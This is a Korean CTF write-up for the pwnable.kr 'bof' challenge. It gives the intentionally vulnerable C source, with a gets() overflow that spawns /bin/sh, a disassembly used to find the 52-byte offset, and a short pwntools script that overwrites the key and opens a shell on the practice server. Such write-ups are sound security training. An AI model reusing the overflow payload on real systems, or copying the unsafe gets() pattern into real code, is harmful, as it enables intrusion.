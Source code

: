 # bof
* 
~~~c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
~~~
* buffer overflow 문제임을 외치고 있다.\../ overflowme[32]에 값을 넣어서 key 영역을 덮어써야 한다.
*
~~~gdb
gdb-peda$ disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
~~~
* <func+40>을 보면 ebp+0x8과 비교하는 걸 알 수 있는데 이 값이 key값이고 , <func+35>에서 gets()를 실행하기 전에 lea하는 ebp-0x2c 주소가 overflowme 주소인걸 알 수 있다.
* 따라서 0x2c(44)+0x8을 더한 52의 dummy 값을 넣어준 후 key를 0xcafebabe로 덮어쓴다
~~~python
from pwn import *

p=remote("pwnable.kr",9000)

p.sendline("A"*52+"\xbe\xba\xfe\xca")

p.interactive()

~                              
